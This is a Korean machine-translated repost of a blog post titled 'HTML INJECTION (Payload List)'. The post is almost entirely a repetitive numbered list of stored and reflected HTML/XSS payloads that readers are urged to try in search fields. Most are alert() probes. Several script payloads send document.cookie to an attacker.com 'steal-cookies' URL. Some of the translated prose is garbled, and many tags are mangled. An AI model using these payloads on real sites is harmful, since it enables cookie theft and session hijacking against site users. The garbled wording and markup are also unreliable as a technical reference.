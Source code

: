 ```yaml
---
title: "HTML 삽입 (페이로드 목록)"
description: ""
coverImage: "/assets/img/2024-05-02-HTMLINJECTIONPayloadList_0.png"
date: 2024-05-02 00:01
ogImage: 
  url: /assets/img/2024-05-02-HTMLINJECTIONPayloadList_0.png
tag: Tech
originalTitle: "HTML INJECTION (Payload List)"
link: "https://medium.com/@psychomong/html-injection-payload-list-735e69f522ca"
---
```



피신몽인 사람들, 다시 돌아

주사, 이제 페이로드 목록을 가져 오는 것을 보여드리고, 검색 패널에서 시도해 볼 수 있으며, 그대로 반영될 수 있습니다 & 저장되면 위험할 수도 있습니다,

이제 같은 것에 대해 몇 가지 기본 사항을 살펴보겠습니다. HTML 주입이 무엇인지 알아보기 위해
아스타 타커
HTML 주입 또는 주입 관련 질문에 대해, 바로 코드만 제공해 드릴게요. 이것을 시도해서 혜택을 얻어보세요..... 

```markdown
![HTML INJECTION Payload List](/assets/img/2024-05-02-HTMLINJECTIONPayloadList_0.png)
```

<div class="content-ad"></div>

페이로드 목록을 확인해 보세요...

물론이죠! 저장된 및 반사된 HTML 주입 페이로드 100개를 모두 포함한 목록입니다:

저장된 HTML 주입 페이로드:
1. `script`alert(‘저장된 HTML 주입’)`/script`
2. `img src=”javascript:alert(‘저장된 HTML 주입’)”`
3. `svg/onload=alert(‘저장된 HTML 주입’)`
4. `iframe src=”javascript:alert(‘저장된 HTML 주입’)”`
5. `body onload=alert(‘저장된 HTML 주입’)`
6. `img src=x onerror=alert(‘저장된 HTML 주입’)`
7. `marquee onstart=alert(‘저장된 HTML 주입’)`
8. `input type=”image” src=”javascript:alert(‘저장된 HTML 주입’)”`
9. `img src=1 href=1 onerror=alert(‘저장된 HTML 주입’) /`
10. `input type=”hidden” onkeypress=”alert(‘저장된 HTML 주입’)”`
11. `audio onloadstart=”alert(‘저장된 HTML 주입’)”`
12. `form onsubmit=”alert(‘저장된 HTML 주입’)”`
13. `textarea onchange=”alert(‘저장된 HTML 주입’)”`
14. `base href=”javascript:alert(‘저장된 HTML 주입’)”`
15. `a href=”javascript:alert(‘저장된 HTML 주입’)”`여기를 클릭하세요`/a`
16. `object data=”javascript:alert(‘저장된 HTML 주입’)”`
17. `img src=”x” onmouseover=”alert(‘저장된 HTML 주입’)”`
18. `script`document.write(‘`iframe src=”https://attacker.com/steal-cookies?cookie=` + document.cookie + ‘“``/iframe`’);`/script`
19. `body background=”javascript:alert(‘저장된 HTML 주입’)”`
20. `embed src=”javascript:alert(‘저장된 HTML 주입’)”`
21. `script`alert(‘반사된 HTML 주입’)`/script`
22. `img src=”javascript:alert(‘반사된 HTML 주입’)”`
23. `svg/onload=alert(‘반사된 HTML 주입’)`
24. `iframe src=”javascript:alert(‘반사된 HTML 주입’)”`
25. `body onload=alert(‘반사된 HTML 주입’)`
26. `img src=x onerror=alert(‘반사된 HTML 주입’)`
27. `marquee onstart=alert(‘반사된 HTML 주입’)`
28. `input type=”image” src=”javascript:alert(‘반사된 HTML 주입’)”`
29. `img src=1 href=1 onerror=alert(‘반사된 HTML 주입’) /`
30. `input type=”hidden” onkeypress=”alert(‘반사된 HTML 주입’)”`
31. `audio onloadstart=”alert(‘반사된 HTML 주입’)”`
32. `form onsubmit=”alert(‘반사된 HTML 주입’)”`
33. `textarea onchange=”alert(‘반사된 HTML 주입’)”`
34. `base href=”javascript:alert(‘반사된 HTML 주입’)”`
35. `a href=”javascript:alert(‘반사된 HTML 주입’)”`여기를 클릭하세요`/a`
36. `object data=”javascript:alert(‘반사된 HTML 주입’)”`
37. `img src=”x” onmouseover=”alert(‘반사된 HTML 주입’)”`
38. `script`document.write(‘`iframe src=”https://attacker.com/steal-cookies?cookie=` + document.cookie + ‘“``/iframe`’);`/script`
39. `body background=”javascript:alert(‘반사된 HTML 주입’)”`
40. `embed src=”javascript:alert(‘반사된 HTML 주입’)”`

41. `svg/onload=alert(‘저장된 HTML 주입’)`
42. `body onload=alert(‘저장된 HTML 주입’)`
43. `img src=x onerror=alert(‘저장된 HTML 주입’)`
44. `marquee onstart=alert(‘저장된 HTML 주입’)`
45. `input type=”image” src=”javascript:alert(‘저장된 HTML 주입’)”`
46. `img src=1 href=1 onerror=alert(‘저장된 HTML 주입’) /`
47. `input type=”hidden” onkeypress=”alert(‘저장된 HTML 주입’)”`
48. `audio onloadstart=”alert(‘저장된 HTML 주입’)”`
49. `form onsubmit=”alert(‘저장된 HTML 주입’)”`
50. `textarea onchange=”alert(‘저장된 HTML 주입’)”`
51. `base href=”javascript:alert(‘저장된 HTML 주입’)”`
52. `a href=”javascript:alert(‘저장된 HTML 주입’)”`여기를 클릭하세요`/a`
53. `object data=”javascript:alert(‘저장된 HTML 주입’)”`
54. `img src=”x” onmouseover=”alert(‘저장된 HTML 주입’)”`
55. `script`document.write(‘`iframe src=”https://attacker.com/steal-cookies?cookie=` + document.cookie + ‘“``/iframe`’);`/script`
56. `body background=”javascript:alert(‘저장된 HTML 주입’)”`
57. `embed src=”javascript:alert(‘저장된 HTML 주입’)”`
58. `img src=”javascript:alert(‘저장된 HTML 주입’)” onerror=”alert(‘저장된 HTML 주입’)”`
59. `body``svg``script`alert(‘저장된 HTML 주입’)`/script``/svg``/body`
60. `a href=”data:text/html,`script`alert(‘저장된 HTML 주입’)`/script`”`여기를 클릭하세요`/a`

<div class="content-ad"></div>

반가워요! 

다음은 HTML 주입 페이로드 결과입니다:
61. `svg/onload=alert(‘주입된 HTML 삽입’)`
62. `body onload=alert(‘주입된 HTML 삽입’)`
63. `img src=x onerror=alert(‘주입된 HTML 삽입’)`
64. `marquee onstart=alert(‘Reflected HTML Injection’)`
65. `input type=”image” src=”javascript:alert(‘주입된 HTML 삽입’)”`
66. `img src=1 href=1 onerror=alert(‘주입된 HTML 삽입’) /`
67. `input type=”hidden” onkeypress=”alert(‘주입된 HTML 삽입’)”`
68. `audio onloadstart=”alert(‘주입된 HTML 삽입’)”`
69. `form onsubmit=”alert(‘주입된 HTML 삽입’)”`
70. `textarea onchange=”alert(‘주입된 HTML 삽입’)”`
71. `base href=”javascript:alert(‘주입된 HTML 삽입’)”`
72. `a href=”javascript:alert(‘주입된 HTML 삽입’)”`Click me`/a`
73. `object data=”javascript:alert(‘주입된 HTML 삽입’)”
74. `img src=”x” onmouseover=”alert(‘주입된 HTML 삽입’)”`
... (중략)

여기까지 주입을 시도해보고, 어디에 삽입해야 하는지 알려줘.... 찾아보세요..

다음주 월요일에 만나요,

<div class="content-ad"></div>

행복한 해킹! 해커들...